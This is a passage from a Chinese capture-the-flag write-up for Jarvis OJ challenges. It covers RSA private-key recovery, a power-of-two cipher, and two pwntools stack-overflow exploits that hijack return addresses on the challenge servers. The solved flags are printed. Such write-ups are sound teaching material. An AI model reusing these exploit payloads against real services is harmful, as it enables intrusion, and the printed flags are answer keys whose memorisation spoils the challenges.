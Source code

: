   ```
  while (True):
      x = (Qn * i ) + 1
      if (x % keypair.e == 0):
          keypair.d = x / keypair.e
          break
      i += 1
  
  private = open('private.pem','w')
  private.write(keypair.exportKey())
  private.close()
  ```

  得到私钥，解密得到flag

  `PCTF{256b_i5_m3dium`

  

* #### 影之密码 

  密文`8842101220480224404014224202480122 `

  flag是8位大写字母

  有7个0正好分成八段，只有1248四个数字，应该和2^n有点关系

  查了一波和2^n有关系的加密方法，有一种叫做二进制幂数加密法

  任意的十进制数都可以用2^n或2^n+2^m+……的形式表示出来，可表示的单元数=2^(n+1)-1，只要2的0、1、2、3、4次幂就可以表示31个单元。通过用二进制幂数表示字母序号数来加密 

  `23 5 12 12 4 15 14 5`

  `WELLDONE `

  

* #### Tell Me Something 

  ```python
  from pwn import *
  sh = remote("pwn.jarvisoj.com",9876)
  payload = 'a'*136 + p64(0x0000000000400620) 
  sh.recvuntil("message:\n")
  sh.sendline(payload)
  print(sh.recv())
  #PCTF{This_is_J4st_Begin}
  ```

* #### Test Your Memory

   ```python
   from pwn import *
   sh = remote("pwn2.jarvisoj.com",9876)
   elf =ELF("./memory") 
   win_func_addr = elf.symbols['win_func']
   catFlag_addr = 0x080487E0
   padding = 'a' * (0x13 + 0x4)
   payload = padding
   payload += p32(win_func_addr) + p32(0x08048677) + p32(catFlag_addr)
   
   sh.sendline(payload)
   print(sh.recv())
   print(sh.recv())
   #CTF{332e294fb7aeeaf0e1c7703a29304343}
   ```
